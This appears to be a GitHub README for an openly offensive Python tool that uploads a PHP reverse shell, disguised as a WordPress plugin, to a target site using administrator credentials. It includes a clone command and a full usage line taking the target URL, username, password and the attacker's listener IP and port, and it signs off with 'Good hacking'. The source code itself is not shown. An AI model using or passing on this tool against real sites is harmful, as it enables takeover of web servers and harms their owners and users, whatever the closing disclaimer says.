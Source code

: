
<div align="center">

  <img src="https://github.com/Jsmoreira02/Pwn_wordpress/assets/103542430/6392fe40-bfff-4784-acfd-645ba2155574" height=130>
  
  <img src="https://img.shields.io/badge/Language%20-Python3-blue.svg" style="max-width: 100%;">
  <img src="https://img.shields.io/badge/Tool%20-Shell upload | reverse shell-brown.svg" style="max-width: 100%;">
  <img src="https://img.shields.io/badge/Target OS%20-Linux-yellow.svg" style="max-width: 100%;">
  <img src="https://img.shields.io/badge/Hacking tool%20-teste?style=flat-square" style="max-width: 100%;">  
  <img src="https://img.shields.io/badge/Type%20-Script-red.svg" style="max-width: 100%;">

</div>

# Evil Wordpress Plugin (Malicious)

Malicious, remotely performs an upload of a PHP reverse shell in the form of a plugin on a WordPress site. The exploit is only successful with user credentials, so make sure you know the target username and password and check if the target user has Administrator permissions.

Install by running:

```bash
  git clone https://github.com/Jsmoreira02/Malicious_Plugin.git
```
    
## Attacking the Target Website:

![ezgif com-video-to-gif(1)](https://github.com/Jsmoreira02/Pwn_Wordpress/assets/103542430/532470ab-161f-487d-a59b-f3d0d7366c25)


- **The speed depends on your connection, check the stability of your connection in case there is a slowdown in execution**


```bash 
python3 Malicious.py -t http://<IP or domain_name> -u <Target Username> -p <Target Password> -L <LOCAL IP> -P <LOCAL PORT>

```

### In case of complications or disconnection issues, you can just manually trigger the connection at the URL link. The script will pass it to you. ###

## 

- ***Good hacking :)***

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It was written for fun, not evil and is intended to raise awareness about cybersecurity


